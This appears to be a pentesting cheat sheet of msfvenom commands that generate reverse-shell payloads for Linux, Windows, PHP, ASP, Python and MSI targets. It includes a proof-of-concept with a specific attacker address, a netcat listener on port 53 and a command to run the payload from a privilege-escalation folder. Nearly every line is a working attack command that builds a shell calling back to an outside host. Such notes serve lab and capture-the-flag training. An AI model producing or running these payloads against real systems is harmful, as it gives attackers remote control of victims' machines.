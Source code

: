 # Linux Executable and Linkable Format (elf)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
## POC 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.45.46 LPORT=53 -f exe -o reverse.exe
sudo nc -nvlp 53
C:\PrivEsc\reverse.exe

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

# Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

# MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi 